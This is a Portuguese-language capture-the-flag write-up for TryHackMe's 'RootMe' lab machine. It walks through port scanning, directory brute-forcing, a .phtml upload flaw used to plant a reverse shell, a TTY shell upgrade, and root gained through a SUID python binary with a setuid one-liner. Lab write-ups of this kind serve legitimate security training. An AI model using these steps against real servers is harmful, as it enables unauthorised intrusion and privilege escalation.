 # ROOTME WRITEUP - TRYHACKME

este é um repositório rápido, explicando como conseguir ter acesso e rootar a máquina [rootme](https://tryhackme.com/room/rrootme) do tryhackme.



### OUTPUT DO NMAP 
```
nmap -sV -T5 -vvv -p- 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### BRUTE FORCE DE DIRETÓRIOS UTILIZANDO O FFUF

```
ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/wordlists/common.txt
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
encontrei dois diretórios interessante de analizar, que era o **panel** e **uploads**.

existia uma vulnerabilidade de upload de arquivo.
entrando no diretório podemos obter uma lista de arquivos upados, mas por enquanto o diretório ainda estava vazio.

entrando no diretório /panel encontramos um form de upload, no qual poderiamos upar um arquivo para obter uma reverse shell. 
obtive uma shell no site [reverse shells](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)

Parece que o servidor não validava o tipo de arquivo que está sendo carregado, pelo menos .phtml ele não validava, portanto, podemos carregar nosso arquivo malicioso para obter uma reverse shell

Recebi um aviso dizendo que a shell foi upada. Entrei no diretório /uploads e lá estava meu arquivo malicioso, apenas executei e recebi a shell no meu netcat que estava rodando com a porta 1337 em modo de escuta.

### OBTENDO UMA SHELL MELHOR

Utilizando o modulo do python 'pty', usei alguns comandos para dar um upgrade na minha shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

Obtive a primeira flag que estava no diretório /home/$USER/user.txt

### BUSCANDO ARQUIVOS BINÁRIOS COM PERMISSÃO SUID

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

Podemos ver o python com essas permissões. 

### PRIVESC NA MÁQUINA

Já que tinhamos o python executando com permissões elevadas, logo busquei uma maneira de elevar meus privilegios para root.
O [GTFOBin](https://gtfobins.github.io/) tem vários métodos de escalação de privações que podemos usar.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

e assim conseguimos root e a flag root no diretório /root/root.txt
